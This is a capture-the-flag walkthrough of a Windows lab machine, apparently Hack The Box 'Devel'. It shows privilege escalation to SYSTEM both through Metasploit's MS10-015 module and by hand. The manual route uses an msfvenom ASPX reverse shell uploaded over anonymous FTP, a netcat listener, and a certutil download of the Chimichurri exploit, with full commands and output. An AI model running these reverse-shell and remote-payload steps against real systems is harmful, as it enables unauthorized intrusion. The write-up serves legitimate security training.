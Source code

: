 #kernel #kitrap0d #metasploit #netcat #Chimichurri #MS10-059 #MS10-015 #FTP #python #certutil #msfvenom

---

Windows Kernel Exploits - [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

## Metasploit Method
1. Background the session
	1. `bg session`
2.  Use **MS10-015** kitrap0d exploit
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  11               yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.4       yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)



View the full module info with the info, or info -d command.
```

Exploited
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.4:5555 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 4068 launched.
[*] Reflectively injecting the DLL into 4068...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 12 opened (10.10.14.4:5555 -> 10.10.10.5:49202) at 2024-10-01 14:46:13 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

3. User flag - babis
```
c:\Users\babis\Desktop>type user.txt
type user.txt
dc9de1a7dfec1f3f1eafc09aa7ede2ea
```

4. Root flag
```
c:\Users\Administrator\Desktop>type root.txt
type root.txt
56738ddd739b096a539b9256b3abeb12
```

---

## Manual Method

1. Create reverse tcp payload with `msfvenom` 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=5555 -f aspx >manual.aspx
```

2. Use ftp to `PUT` `manual.aspx` payload on `10.10.10.5` server
```
┌──(root㉿kali)-[~]
└─# ftp anonymous@10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put manual.aspx 
local: manual.aspx remote: manual.aspx
229 Entering Extended Passive Mode (|||49204|)
150 Opening ASCII mode data connection.
100% |***************************************************************************************************************|  2753       65.63 MiB/s    --:-- ETA
226 Transfer complete.
2753 bytes sent in 00:00 (26.85 KiB/s)
```

3. Create listener on specified port from payload
```
nc -lnvp 5555
```

4. Navigate to url `10.10.10.5/manual.aspx` to catch shell in `nc` 
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 5555 
listening on [any] 5555 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.5] 49210
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami    
whoami
iis apppool\web
```

5. Found exploit that give local system shell, **==MS10-059 (Chimichurri)==**. Download `.exe` and start python server to transfer file (`cd` to location of file)
```python3
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.5 - - [01/Oct/2024 15:10:41] "GET /Chimichurri.exe HTTP/1.1" 200 -
```

```certutil
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.4:8000/Chimichurri.exe ms.exe                                                                         
certutil -urlcache -f http://10.10.14.4:8000/Chimichurri.exe ms.exe                                                                                         
****  Online  ****                                                                                                                                          
CertUtil: -URLCache command completed successfully.  
```

6. Run start `nc` listener for used with `ms.exe` and run `ms.exe`
```nc
┌──(root㉿kali)-[~]
└─# nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.5] 49218
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\Windows\Temp>whoami
whoami
nt authority\system
```

```Chimichurri
c:\Windows\Temp>ms.exe 10.10.14.4 5555
ms.exe 10.10.14.4 5555
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```